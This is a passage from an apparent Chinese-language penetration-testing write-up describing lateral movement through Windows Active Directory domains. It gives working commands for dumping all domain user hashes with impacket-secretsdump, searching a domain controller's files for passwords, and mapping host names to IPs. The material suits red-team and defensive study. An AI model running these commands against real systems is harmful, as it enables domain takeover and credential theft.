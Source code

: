 无妨，我们通过 Metasploit 弹了一个正向 shell 后拿到域管理的 hash，随后远程导出域内用户 hash：

    
    
    impacket-secretsdump -hashes xxxxx:xxxxx -just-dc AAAA.com/Administrator@xxx.xxx.40.xxx -pwd-last-set  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221209101658.png)

此时 AAA 域已经拿下， **所有用户的 hash 也已经掌握（大家记住这里已经拿到 AAA 域的所有域用户密码，一会对 BBB 域有用）**

随后通过 WMI 登录到 DC 上，然后去搜索一些密码文件：（要习惯如果拿到了一台 Windows
机器的权限，经可能的要去搜集它当前机器上的各类文件，里面说不定就有一些密码或者连接信息）

    
    
    findstr /c:"username=" /c:"password=" /c:"uid=" /c:"pwd=" /si *.ini *.inf *.txt *.cgi *.conf *.asp *.php *.jsp *.aspx *.cgi *.xml *.log *.new *.bak  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221209101703.png)

## 定位每一台域机器对应的 IP 是多少

就这样我得到了大量存放在域控机器上的密码，然后为了确定每一台域机器对应的 IP 是多少，首先提取当前域内完整 SPN 记录, 排序去重后过滤出机器名列表：

    
    
    setspn -Q */* | findstr "CN=" > C:\windows\temp\host.txt  
    

然后本地 linux 去过滤得到机器名：

    
    
    awk -F "," '{print $1}' host.txt | awk -F "=" '{print $2}' > hosts.txt  
    

最后来到当前 Windows 跳板机器上循环 Ping 得到机器  IP：

    
    
    c:\windows\temp>cmd /c for /f "delims=" %i in (C:\windows\temp\hosts.txt) do @ping -w 3 -n 1 %i | findstr /c:"[1" >> C:\windows\temp\final.txt  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221209101704.png)

这样就确定了每一台机器对应的 IP，若想要控某一台机器那就很方便了！

接下来对当前 AAA 域的内网进行信息搜集发现没有啥可利用的价值，随后选择继续横向信息搜集。

大家要知道在内网里乱横向信息搜集、乱扫描是毫无意义的！且容易被发现导致送人头，在这里可以把之前外网渗透时搜集到的目标子域名进行内网 host
碰撞，这样能够精确的知道每一台机器对应的是什么系统！

## host 碰撞获取内外网对应资产

为了更好的定位内外网的资产对应关系，可以使用 win 自带的命令来帮我们获取：（Ping 的到的 IP 不一定就一定存活）

    
    
    for /f "delims=" %i in (domain.txt) do @ping -w 1 -n 1 %i | findstr /c:"[10." /c:"[192." /c:"[172." >> out.txt  
    